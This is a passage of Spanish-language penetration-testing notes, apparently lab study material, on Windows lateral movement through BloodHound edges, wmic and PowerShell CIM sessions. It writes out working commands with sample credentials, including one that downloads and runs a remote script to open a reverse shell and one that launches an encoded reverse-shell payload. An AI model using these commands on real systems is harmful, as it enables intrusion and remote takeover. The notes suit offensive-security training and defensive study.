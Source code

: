 #rdp #mssql #winrm
Debemos tener en cuenta que además de las técnicas que se mencionan aquí podemos movernos lateralmente con técnicas como:
- [[Credenciales en Windows#Pass-the-Hash (PtH)]]
- [[Credenciales en Windows#OverPass-the-Hash]]
- [[Credenciales en Windows#Pass-the-Ticket (PtT)]]
- [[Credenciales en Windows#Silver ticket (Ataque TGS)]]


Nos planteamos este escenario cuando somos un usuario sin privilegios administrativos locales o de dominio. Aún podemos tratar de movernos entre distintos hosts. Bloodhound nos permite comprobar escenarios del tipo 
- [CanRDP](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canrdp)
- [CanPSRemote](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canpsremote)
- [SQLAdmin](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#sqladmin)

## WMI
### Ejecutar comandos con wmic vía `/node`
Esta utilidad ha quedado recientemente obsoleta. 
- Ejemplo de generación de código en máquina 192.168.50.73 desde nuestra máquina comprometida con cmd
	```powershell
	wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
	```
	Si monitorizasemos 192.168.50.73 veríamos aparecer el proceso `win32calc.exe` como jen como usuario
	- Con esta misma idea podríamos envíarnos una revshell del siguiente modo (no me ha funcionado): 
	```powershell
	wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "powershell -nop -c ""iex (New-Object Net.WebClient).DownloadString('http://192.168.45.160:8000/Invoke-ConPtyShell.ps1'); Invoke-ConPtyShell 192.168.45.160 443"""
	```
### Ejecutar ataque con powershell
`Invoke-WmiMethod` es un **cmdlet de PowerShell** que permite invocar métodos en clases de WMI (Windows Management Instrumentation). Básicamente, **es la versión en PowerShell de `wmic process call create`**
En este caso, debemos crear un objeto credential y un CIM (Common Information Model ) a través de `New-CimSession`. Ejemplo completo envíando revshell (creada con powershell -base64 de revshells - funciona):
```powershell
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options
$Command = 'powershell -nop -w hidden -e JABjAGw...QAoACkA';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```
